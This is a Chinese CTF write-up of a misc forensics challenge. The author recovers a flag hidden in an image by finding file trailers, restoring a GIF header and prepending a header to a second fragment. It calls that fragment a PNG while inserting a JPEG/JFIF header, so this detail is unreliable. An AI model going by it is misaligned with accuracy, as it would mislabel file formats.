

虽然有点抽象，但还是发现了神秘代码，结果直接当flag不对，各种解码也解不出来，最后请教了下出题人才知道原图还有东西我没有发现。
[CTFmisc常见文件头和尾](https://blog.csdn.net/Hardworking666/article/details/121335822)，文件头都被藏起来了，但是文件尾还是有的，通过搜索文件尾发现有gif和png在里面，于是开始提取。首先提取的是gif，参考了这个[GIF文件格式详解](https://blog.csdn.net/zz460833359/article/details/123068320)，都是有例子的，还是挺好的，可以参照着看

gif把划出来的修改为`47 49 46 38`就好了，然后就可以用python提取了——foremost不太靠谱，会碰到数据中的gif规定的结束字符提前结束提取，但实际上后面还有一大块都没提取出来，导致出来的图片基本上整张都是黑的。
提取出来的结果是这样的：

可以看到flag的尾部已经出来了。
接下来是提取png，png这块有点不寻常，头部没有被替换，是有一块被直接删掉了，因此可以先提取出来，然后插入头部，具体格式可以参考这个[【CTF】【winhex】超详细jpg图片结构分析](https://blog.csdn.net/weixin_45720193/article/details/127393748)，不过插入数据的话其实找一张其他的png的文件头，复制过来就好了

如图，在头部添加上这段`ff d8 ff e0 00 10 4a 46 49 46 00 01 01 00 00 01 00 01 00 00 ff`，我的编辑器还会抽风，把`00`复制成`20`，不知道为什么。顺带一提，后面的这个`Adobe`属实是有点误导了，找了很久相关的格式，最后发现好像并没有什么关系的样子。
提取出来的是这样的：

这样，flag的前段、中段、后段就凑齐了。
不得不说，四张图，果然是四重存在啊，感觉是很好的创意。也恭喜芙兰获得人气投票冠军了，虽然更喜欢魔理沙一点。